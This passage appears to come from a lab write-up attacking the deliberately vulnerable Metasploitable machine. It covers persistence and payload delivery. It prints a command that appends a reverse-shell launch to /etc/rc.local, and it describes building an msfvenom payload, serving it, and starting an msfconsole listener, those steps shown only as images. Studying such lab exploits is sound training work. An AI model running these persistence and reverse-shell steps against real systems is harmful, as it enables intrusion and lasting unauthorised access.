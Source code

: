 Now that we have our interactive shell we can set up persistence as at any time we can lose our shell because of a system restart. By putting our payload into a system startup location we ensure that if our target notices that they have been compromised then restarting the machine will not lock us out.

``` bash
### appending rc.local with a command that executes our payload, ensuring it is ran on startup

echo "/bin/bash -i < /tmp/reverse_shell.elf &" >> /etc/rc.local

### making it executable

chmod +x /etc/rc.local
```


---

## 3. Delivery 

To begin our attack we first create the payload using msfvenom that will be uploaded to the machine once we have exploited the vsftpd vulnerability. This payload will create a reverse shell that my msfconsole will be set to listen for. This gives me more capabilities when using msfconsole.

![Creating payload](https://github.com/deboogo/metasploitable-analysis/blob/main/Images/Creating%20payload.png)
Serving the payload using a python3 server

![Python server](https://github.com/deboogo/metasploitable-analysis/blob/main/Images/Python%20server.png)
Starting the msfconsole listener for my payload as a background job so that when I come to execute it msfconsole connects straight away

![Msfconsole listener](https://github.com/deboogo/metasploitable-analysis/blob/main/Images/Msfconsole%20listener.png)

---